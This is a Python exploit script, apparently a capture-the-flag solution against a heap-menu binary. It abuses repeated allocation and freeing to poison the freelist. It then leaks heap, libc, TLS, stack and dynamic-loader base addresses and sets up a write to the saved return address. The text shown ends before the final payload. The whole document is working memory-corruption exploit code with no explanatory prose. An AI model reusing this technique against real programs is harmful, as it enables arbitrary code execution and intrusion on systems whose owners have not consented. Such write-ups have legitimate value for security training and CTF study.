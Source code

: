 ```py
show(0)
leak = u64d(ru(b'/bin/sh\x00')[:-8])
heap_base = leak - 0x10080
log.success("Heap leak: %#x", leak)
log.success("Heap base: %#x", heap_base)

for i in range(19):
    create(0)
    delete(0)

create(15)
delete(15)

for i in range(10):
    create(0)
    delete(0)

create(1)
delete(1)

create(1)
edit(0, p64(heap_base+0x190))
create(0)
create(1)
show(1)
libc_leak = u64d(rl()[48:48+8])
libc.address = libc_leak - 0x2b100
log.success("Libc leak: %#x", libc_leak)
log.success("Libc base: %#x", libc.address)

edit(1, p64(heap_base+0x10a80)) # Fix freelist
edit(15, p64(heap_base+0x118))
create(2)
create(2)
show(2)
tls_leak = u64d(rl()[:8])
tls_base = tls_leak - 0x1b28
environ = tls_base + 0x1d60
log.success("TLS leak: %#x", tls_leak)
log.success("TLS base: %#x", tls_base)
log.info("environ: %#x", environ)

edit(1, p64(heap_base+0x10a80)) # Fix freelist
edit(15, p64(environ))
create(2)
create(2)
show(2)
stack_leak = u64d(rl()[:8])
rip = stack_leak - 0x70
log.success("Stack leak: %#x", stack_leak)

edit(1, p64(heap_base+0x10a80)) # Fix freelist
edit(15, p64(libc.address + 0x29c50)) # syscall got. Syscall points to ld
create(2)
create(2)
show(2)
syscall_got = u64d(rl()[:8])
ld_base = syscall_got - 0x55f1f
log.success("ld leak: %#x", syscall_got)
log.success("ld base: %#x", ld_base)

edit(1, p64(heap_base+0x10a80)) # Fix freelist
edit(15, p64(rip))
```